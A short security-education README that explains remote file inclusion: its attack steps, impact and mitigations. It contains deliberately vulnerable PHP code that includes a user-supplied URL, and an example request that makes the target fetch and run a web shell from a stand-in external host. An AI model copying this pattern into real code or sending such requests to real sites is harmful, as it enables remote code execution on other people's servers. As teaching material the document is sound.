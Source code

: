 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/remote-file-inclusion/main/remote-file-inclusion.png"></p>

A threat actor may trick a vulnerable target to include/retrieve remote file

## Example #1
1. A threat actor uploads a PHP web shell to a temporary file service
2. A threat actor sends a malicious request that includes the remote file name to a vulnerable target
3. The vulnerable target executes malicious files as PHP

## Code
#### Target-Logic
```php

#allow_url_include = On

<?php
  $file = $_GET["file"];
  include $file;
?>
```

#### Target-In
```
http://vulnerable.test/index.php?file=http://fileserver.test/shell.php
```

#### Target-Out
```
root
```

## Impact
High

## Names
- Remote file inclusion
- RFI

## Risk
- Read & Write data
- Command Execution

## Redemption
- Input validation
- Whitelist

## ID
cb60059e-846f-40df-9dbd-e687e8d6960a

## References
- [Wikipedia](https://en.wikipedia.org/wiki/file_inclusion_vulnerability)
